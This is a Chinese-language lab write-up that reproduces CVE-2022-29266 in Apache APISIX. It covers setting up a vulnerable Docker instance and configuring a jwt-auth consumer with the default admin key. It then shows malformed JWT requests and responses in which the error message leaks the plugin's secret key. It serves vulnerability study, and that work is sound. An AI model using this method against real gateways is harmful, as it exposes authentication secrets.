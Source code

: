 # CVE-2022-29266 （Apache APISIX 信息泄露漏洞） 👋

## 概述

在2.13.1版本之前的APache APISIX中，攻击者可以通过向受jwt-auth插件保护的路由发送错误的JSON Web Token，通过错误信息响应获得插件配置的敏感信息。依赖库lua-resty-jwt中的错误逻辑允许向需要HS256 Token的端点发送RS256 Token，并在错误响应中包含原始密钥值。

关键点：

- 启用jwt-auth插件
- 错误的token信息造成报错显示错误信息
- 需要发送错误的RS256格式的token

1. 

## 复现分析

从apisix-docker拉取镜像
```https://github.com/apache/apisix-docker```

进入到xxx/apisix-docker/example目录

修改docker-compose.yml apisix部分的版本低于2.13.1 ，此处修改为2.10.5-alpine

```
apisix:
    image: apache/apisix:2.10.5-alpine
    restart: always
    volumes:
      - ./apisix_log:/usr/local/apisix/logs
      - ./apisix_conf/config.yaml:/usr/local/apisix/conf/config.yaml:ro
    depends_on:
      - etcd
    ##network_mode: host
    ports:
      - "9080:9080/tcp"
      - "9091:9091/tcp"
      - "9443:9443/tcp"
      - "9092:9092/tcp"
    networks:
      apisix:
```

命令sudo docker-compose up -d启动镜像

注意到由于要启用jwt-auth插件，由于没有使用过，所以点进配置的时候有点懵，直接看官方操作文档（https://apisix.apache.org/zh/docs/apisix/plugins/jwt-auth/）

官方手册中说明：“`jwt-auth` 是一个认证插件，它需要与 `consumer` 一起配合才能工作。” 那就需要配置consumer，继续查看手册发现以下配置代码，直接使用curl在9080端口上创建一个consumer，并配置了jwt-auth的key和secret。

```
curl http://127.0.0.1:9080/apisix/admin/consumers -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
{
    "username": "jack",
    "plugins": {
        "jwt-auth": {
            "key": "user-key",
            "secret": "my-secret-key"
        }
    }
}'
```

查看官方修改的commit发现（以下代码为官方commit修复代码）

1、当使用GET请求带上jwt参数的时候如果出错会触发jwt-auth的错误信息

2、当在headers头中填写错误的Authorization头的时候也会触发jwt-auth的错误信息

```
GET /hello?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ1c2VyLWtleSIsImV4cCI6MTU2Mzg3MDUwMX0.pPNVvh-TQsdDzorRwa-uuiLYiEBODscp9wv0cwD6c68
--- error_code: 401
--- response_body
{"message":"'exp' claim expired at Tue, 23 Jul 2019 08:28:21 GMT"}
{"message":"JWT token verify failed"}
--- error_log
JWT token verify failed: 'exp' claim expired at Tue, 23 Jul 2019 08:28:21 GMT



@@ -274,7 +278,9 @@ GET /hello
Authorization: bearer invalid-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ1c2VyLWtleSIsImV4cCI6MTg3OTMxODU0MX0.fNtFJnNmJgzbiYmGB0Yjvm-l6A6M4jRV1l4mnVFSYjs
--- error_code: 401
--- response_body
{"message":"invalid header: invalid-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9"}
{"message":"JWT token invalid"}
--- error_log
JWT token invalid: invalid header: invalid-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```

到这已经能直接复现了，两种方式可以选择一种即可验证。

回顾最开始提到的注意中“需要发送错误的RS256格式的token”问题，为什么不直接提供随便字符？而是需要提供一个错误的RS256格式的token，官方其实修改了两个地方：

1、修复了触发抛出jwt-auth错误信息的逻辑

2、修复了jwt_obj.valid和jwt_obj.verified抛出错误信息的异常

通过看第2点的名字也应该能知道，valid是判断token格式是否合法，verified才是验证，然而两者中只有verified时出错了才会返回key，而触发valid不会触发，以下是两种不同情况触发的返回包：

1、jwt合法但是有错误

```
HTTP/1.1 401 Unauthorized
Date: Fri, 22 Apr 2022 15:41:03 GMT
Content-Type: text/plain; charset=utf-8
Connection: close
Server: APISIX/2.10.5
Content-Length: 75

{"message":"Decode secret is not a valid cert\/public key: my-secret-key"}

```

2、jwt格式不合法

```
HTTP/1.1 401 Unauthorized
Date: Fri, 22 Apr 2022 15:40:47 GMT
Content-Type: text/plain; charset=utf-8
Connection: close
Server: APISIX/2.10.5
Content-Length: 33

{"message":"invalid jwt string"}
```

## 回顾

漏洞本身不复杂

复现的时候多看官网文档，一开始没看到consumer添加实在9080端口，一直在9000上搞了半天.....

## 参考

https://www.openwall.com/lists/oss-security/2022/04/20/1

https://github.com/apache/apisix/pull/6846/files#diff-9b9604832706062cf84d2e9b7a13754c0f21a9a0b34cf271a4eb059f4bffbdaaL436